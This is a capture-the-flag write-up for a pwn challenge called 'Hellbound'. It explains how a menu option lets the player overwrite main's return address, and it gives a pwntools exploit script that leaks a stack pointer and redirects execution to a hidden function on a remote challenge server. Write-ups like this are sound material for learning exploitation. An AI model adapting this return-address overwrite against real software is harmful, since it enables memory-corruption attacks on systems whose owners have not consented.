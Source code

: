 # Hellbound

```
score: 325
solved: 127
difficulty: medium
tags: pwn, rop
```

## Identify
Have 1 array pointer `local_50` to save data. Firstly, `local_50[0]` point to pointer of new chunk.
we have 4 options:
- 1 - Print pointer of `local_50`
- 2 - Write data to `local_50[0]`
- 3 - `local_50[0] = *(void **)((long)local_50[0] + 8);`
- 69 - `free(local_50[0])` and quit

We can use the option 3 to modfy the `return value` of `main` function because `local_50` is in main's stack frame.

## Exploit
<mark>**Note:**</mark> Set `local_50[0]` to `\x00` for no bug occus when run `free`.
```python
from pwn import *
import re
import time

s = '''
init-gef
b *0x00400cf4
b *0x00400d86
b *0x00400db6
"b *0x00400d7f
'''

exe = ELF("./hellhound")
# p = process(exe.path)
# p = gdb.debug(exe.path,gdbscript = s)
# time.sleep(2)
p = remote("188.166.172.138",30830)

# Leak address of pointer 
p.sendafter(b">> ", b"1\n")
tmp = p.recvuntil(b">> ")
num = int(re.search(b'\[[0-9]+?\]',tmp).group(0)[1:-1])
log.info(repr(hex(num)))
p.send(b"1\n")

ret_stack = num + 0x50

# Write addr of return on stack to chunk:
p.sendafter(b">> ",b"2\n")
p.sendafter(b"code: ",b"\x00"*8 + p64(ret_stack))
time.sleep(0.5)
p.sendafter(b">> ",b"3\n")

# Override return addr with function :
log.info("Override ret addr")
p.sendafter(b">> ", b"2\n")
payload = p64(exe.symbols.berserk_mode_off)
payload += p64(0)
payload += p64(0)
payload += p64(0)
p.sendafter(b"code: ", payload)
time.sleep(0.5)
p.sendafter(b">> ", b"3\n")
p.sendafter(b">> ", b"69\n")

p.interactive()
```